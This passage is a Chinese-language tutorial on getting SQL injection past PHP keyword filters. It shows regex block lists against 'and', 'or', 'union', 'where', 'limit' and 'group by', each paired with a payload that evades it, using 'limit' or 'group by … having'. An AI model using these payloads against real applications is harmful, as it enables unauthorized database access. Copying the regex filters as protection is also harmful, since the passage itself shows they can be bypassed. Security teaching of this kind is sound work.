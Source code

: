 过滤注入：
```sql
1|| (select user from users where user_id = 1) = 'admin'
```

绕过注入：
```sql
1|| (select user from users limit 1)='admin'
```

**limit** 默认的初始行是从0行开始 <br>

`limit 1` 意思是 选取第一条数据。

--------
<br>


## **关键词过滤：`and` , `or` , `union` , `where` , `limit`**

PHP过滤代码：
```php 
preg_match ('/(and|or|union|where|limit)/i',$id)
```

关键词**union**通常被用来构造一个恶意的语句以从数据库中获取更多数据。<br>

过滤注入：
```sql
1|| (select  user  from  users  limit 1) ='admin'
```

绕过注入：
```sql
1|| (select  user  from  users  group  by  user_id  having  user_id=1 ) = 'admin'
```

<span id = "by">**GROUP BY**</span> 语句通常与聚合函数(count, sum, avg, min, or max.) 等联合使用来得到一个或多个列的结果集，<br>

<span id = "having">**HAVING**</span> 语句通常与**GROUP BY**语句联合使用，用来过滤由**GROUP BY**语句返回的记录集，<br>

在这里，你可以这样理解，就是 <br>

**group by** 查找字段为 **user_id** 的所有数据，然后用 **having** 筛选 `user_id=1` 的那条数据。

--------
<br>


## **关键词过滤：`and` , `or` , `union` , `where` , `limit` , `group by`**

PHP过滤代码：
```php 
preg_match ('/(and|or|union|where|limit|group by)/i',$id)
```

关键词**union**通常被用来构造一个恶意的语句以从数据库中获取更多数据。<br>

